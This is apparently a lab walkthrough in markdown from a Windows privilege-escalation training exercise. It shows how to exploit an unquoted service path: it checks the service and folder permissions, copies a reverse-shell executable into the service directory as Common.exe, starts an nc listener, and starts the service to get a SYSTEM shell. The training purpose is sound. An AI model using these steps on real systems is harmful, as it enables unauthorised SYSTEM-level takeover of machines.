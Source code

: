 # 🐾 Task 4: Exploiting Services - Unquoted Service Path
---

## 📜 Task Description
In this task, we will exploit a vulnerability in the `unquotedsvc` service, which runs with SYSTEM privileges. The vulnerability lies in its executable path, which is unquoted and contains spaces.

---

## 🔍 Step 1: Checking the Service
First, check the configuration of the `unquotedsvc` service to confirm that it runs with SYSTEM privileges and has an unprotected path. Run the following command to gather information about the service:  
`"sc.exe qc unquotedsvc"`

### 📋 Expected Output
- Ensure that the `SERVICE_START_NAME` indicates SYSTEM.
- Verify that the `BINARY_PATH_NAME` is not enclosed in quotes and contains spaces.  
![image](https://github.com/user-attachments/assets/c669a4f7-c517-43a3-a985-47021c10c0b5)

---

## 🔑 Step 2: Checking Access Permissions
Next, use `accesschk.exe` to check directory access permissions for the service. Run the following command:  
`"C:\PrivEsc\accesschk.exe /accepteula -uwdq 'C:\Program Files\Unquoted Path Service\'"`

### 📋 Expected Output
- Confirm that the `BUILTIN\Users` group has write permissions on the directory.  
![image](https://github.com/user-attachments/assets/4f2972fe-e085-41c9-90de-f0415add5feb)

---

## 📂 Step 3: Copying the Reverse Shell
Copy your `reverse.exe` executable to the service directory and rename it to `Common.exe`. Use the following command:  
`"copy C:\PrivEsc\reverse.exe 'C:\Program Files\Unquoted Path Service\Common.exe'"`

### 📋 Expected Output
- Ensure the file is successfully copied and renamed.

---

## 🎧 Step 4: Setting Up the Listener
Before starting the service, ensure you have a listener running on Kali. Use the following command to set up the listener:  
`"nc -lvnp 53"`

---

## 🚀 Step 5: Starting the Service
Now, start the `unquotedsvc` service. It should execute `Common.exe` and provide you with a reverse shell with SYSTEM privileges. Run the following command:  
`"net start unquotedsvc"`

### 📋 Expected Output
- Confirm that you have received a reverse shell on Kali.  
![image](https://github.com/user-attachments/assets/30e4f011-5f06-476d-9233-0a1cd8adc076)

---

## 🎉 Congratulations!
You have successfully exploited an unquoted service path vulnerability to gain a reverse shell with SYSTEM privileges! 🎊

---

## 📌 Notes
- Ensure you understand each step and its implications.
- Use this knowledge responsibly and only within authorized penetration testing engagements.
